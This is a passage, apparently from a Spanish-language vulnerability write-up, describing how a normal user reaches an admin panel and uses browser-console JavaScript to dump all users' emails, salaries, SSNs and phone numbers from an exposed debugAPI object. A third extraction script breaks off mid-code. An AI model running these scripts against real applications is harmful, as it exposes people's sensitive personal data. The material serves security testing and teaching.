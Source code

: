 ### 💥 **Formas de Explotación**

#### **Método 1: Acceso Directo a Panel Admin**
1. Login como usuario normal (`jaranguiz`)
2. Navegar directamente a `/admin` en el frontend
3. La interfaz se carga y muestra todos los usuarios con datos sensibles

#### **Método 2: Llamada Directa a la Función**
```javascript
// MÉTODO PRÁCTICO: Acceder a datos administrativos
const accessAdminData = () => {
  if (window.debugAPI && window.debugAPI.usersDatabase) {
    console.log("🚨 ACCESO NO AUTORIZADO A DATOS ADMINISTRATIVOS:");
    console.log("💾 Base de datos completa accesible via debugAPI");
    
    const users = window.debugAPI.usersDatabase;
    console.log(`📊 Total de usuarios encontrados: ${users.length}`);
    
    users.forEach(user => {
      console.log(`
👤 Usuario: ${user.username}
📧 Email: ${user.email}
🏢 Rol: ${user.role}
💰 Salario: ${user.profile?.salary?.toLocaleString()}
🆔 SSN: ${user.profile?.ssn}
📞 Teléfono: ${user.profile?.phone}
🏢 Departamento: ${user.profile?.department}
      `);
    });
    
    return users;
  } else {
    console.log("❌ debugAPI no disponible en producción");
    console.log("🔄 Alternativamente:");
    console.log("   1. Navega a /admin para ver interfaz administrativa");
    console.log("   2. Usa herramientas de red para interceptar requests");
    console.log("   3. Revisa localStorage/sessionStorage para datos cacheados");
    
    // Verificar datos en localStorage
    const userData = localStorage.getItem('user');
    if (userData) {
      console.log("📋 Datos de usuario en localStorage:", JSON.parse(userData));
    }
  }
};

// Ejecutar acceso administrativo
accessAdminData();
```

#### **Método 3: Extracción Masiva de Datos**
```javascript
// Script para extraer y procesar todos los datos administrativos
const extractAllAdminData = () => {
  if (!window.debugAPI || !window.debugAPI.usersDatabase) {
    console.log("❌ debugAPI no disponible. Usar métodos alternativos:");
    console.log("   1. Navegación manual a /admin");
    console.log("   2. Inspección de Network tab en DevTools");
    console.log("   3. Análisis de datos en localStorage");
    return null;
  }
  
  const users = window.debugAPI.usersDatabase;
  
```